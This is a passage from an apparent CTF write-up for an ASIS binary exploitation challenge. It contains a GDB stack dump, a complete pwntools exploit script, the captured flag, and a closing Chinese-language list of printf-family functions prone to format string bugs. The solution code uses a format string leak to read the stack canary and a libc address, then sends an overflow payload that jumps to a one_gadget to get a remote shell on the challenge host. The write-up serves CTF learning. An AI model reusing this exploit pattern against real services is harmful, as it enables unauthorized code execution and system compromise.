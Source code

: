 ```sh
0088| 0x7ffff48dcda8 ("aaaaaaaa")
0096| 0x7ffff48dcdb0 --> 0x7ffff48dce00 --> 0x55ee80b9c920 (<_start>:	xor    ebp,ebp)
0104| 0x7ffff48dcdb8 --> 0x659a9a071d0a4d00 
0112| 0x7ffff48dcdc0 --> 0x0 
0120| 0x7ffff48dcdc8 --> 0x7f022ac24b97 (<__libc_start_main+231>:	mov    edi,eax)
0128| 0x7ffff48dcdd0 --> 0x1 
0136| 0x7ffff48dcdd8 --> 0x7ffff48dcea8 --> 0x7ffff48df16e --> 0x6c6c6168632f2e ('./chall')
0144| 0x7ffff48dcde0 --> 0x100008000 
0152| 0x7ffff48dcde8 --> 0x55ee80b9c850 (<main>:	pxor   xmm0,xmm0)
0160| 0x7ffff48dcdf0 --> 0x0 
0168| 0x7ffff48dcdf8 --> 0xf55b7785d276456b 
0176| 0x7ffff48dce00 --> 0x55ee80b9c920 (<_start>:	xor    ebp,ebp)
0184| 0x7ffff48dce08 --> 0x7ffff48dcea0 --> 0x1 
0192| 0x7ffff48dce10 --> 0x0 
```

## Solution
```python=
from pwn import *

one_gadget = 0x4f322
libc_start_main_libc = 0x21ab0

p = remote("69.172.229.147", 9002)

payload = 'a'*8 + ' %p'*18
p.sendline(payload)
leak = p.recvline().split()
canary = int(leak[14], 16)
libc_start_main_address = int(leak[16], 16)
print("canary: ", hex(canary))
print("libc: ", hex(libc_start_main_address))

# calculat libc base address
base = libc_start_main_address - 231 - libc_start_main_libc
shell = base + one_gadget

payload = '\x00' + 'a'*63 + p64(canary) + p64(canary) + 'a'*8 + p64(shell)
p.sendline(payload)
p.interactive()
p.close()

# ASIS{s3cur1ty_pr0t3ct10n_1s_n07_s1lv3r_bull3t}
```
## format string 補充

通常使用到下列 function，必須注意避免 format string 漏洞： <br>
```C
#include <stdio.h>
printf(const char *format, ...);
fprintf(FILE *stream, const char *format, ...);
dprintf(int fd, const char *format, ...);
sprintf(char *str, const char *format, ...);
snprintf(char *str, size_t size, const char *format, ...);
int __printf_chk(int flag, const char * format);

#include <stdarg.h>
vprintf(const char *format, va_list ap);
vfprintf(FILE *stream, const char *format, va_list ap);
vdprintf(int fd, const char *format, va_list ap);
vsprintf(char *str, const char *format, va_list ap);
vsnprintf(char *str, size_t size, const char *format, va_list ap);
```